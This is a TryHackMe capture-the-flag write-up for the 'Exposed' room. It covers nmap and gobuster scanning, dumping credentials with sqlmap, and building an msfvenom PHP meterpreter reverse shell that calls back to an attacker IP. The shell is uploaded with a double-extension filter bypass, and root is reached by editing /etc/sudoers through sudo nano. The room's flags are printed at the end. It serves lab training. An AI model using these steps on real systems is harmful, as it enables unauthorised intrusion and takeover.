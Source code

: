 # Exposed | TryHackMe Write-up

##  Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

##  Enumeration

### Nmap

Quick port scan:

```bash
nmap -sC -sV -oN nmap_initial.txt <IP>
```



Full port scan:

```bash
nmap -p- -oN nmap_full.txt <IP>
```



**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

##  SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.



### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```



**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password123`

Use them to log in to the site.

---

##  File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.



URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```



Reverse shell obtained with `www-data` privileges.

---

##  Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

##  Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

##  Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
